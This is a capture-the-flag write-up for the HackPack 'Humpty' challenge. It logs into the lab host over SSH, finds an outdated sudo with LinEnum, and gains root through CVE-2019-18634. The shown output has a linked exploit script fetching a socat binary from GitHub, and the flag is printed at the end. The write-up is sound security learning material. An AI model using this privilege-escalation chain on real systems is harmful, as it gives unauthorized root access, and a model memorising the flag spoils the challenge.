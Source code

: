 ```yaml
---
title: "HackPack: Humpty"
categories:
  - HackPack
tags:
  - HackPack
---
```


We first need to connect to the machine with ssh:

```
ssh -p 41701 humptydumpty@cha.hackpack.club
Password: covfefe
```

Taking a look around the machine doesn't turn up anything obvious. We'll run linenum.sh to get a better idea of what's on the machine (https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh):

```
./linenum.sh

### SOFTWARE #############################################
[-] Sudo version:
Sudo version 1.8.21p2
```

	That piece of information is interesting, as sudo appears to be outdated. Googling an exploit for this version of sudo brings us to https://www.cybersecurity-help.cz/vdb/SB2020013120. Taking a look through this shows us that an exploit is available, so we'll look for an exploit for CVE-2019-18634, which lands us at https://github.com/Plazmaz/CVE-2019-18634/blob/master/self-contained.sh.

Grabbing the exploit, putting it on the victim machine, and running it returns the root user to us!

```
humptydumpty@12dcf5a6cb5a:~$ bash exploit.sh 
--2020-04-23 16:55:57--  https://raw.githubusercontent.com/andrew-d/static-binaries/master/binaries/linux/x86_64/socat
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.248.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.248.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 375176 (366K) [application/octet-stream]
Saving to: ‘socat’

socat                         100%[==============================================>] 366.38K  --.-KB/s    in 0.07s   

2020-04-23 16:55:57 (4.84 MB/s) - ‘socat’ saved [375176/375176]


We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

Password: 
Sorry, try again.
Sorry, try again.
root@12dcf5a6cb5a:/home/humptydumpty# exit
sudo: 2 incorrect password attempts
Exploiting!
root@12dcf5a6cb5a:/home/humptydumpty# whoami
root
```

We can now grab the flag:

```
root@12dcf5a6cb5a:/home/humptydumpty# cat flag 
flag{7h3_vu1n!_i5?...CVE_2019-18634!}
```

**flag{7h3_vu1n!_i5?...CVE_2019-18634!}**
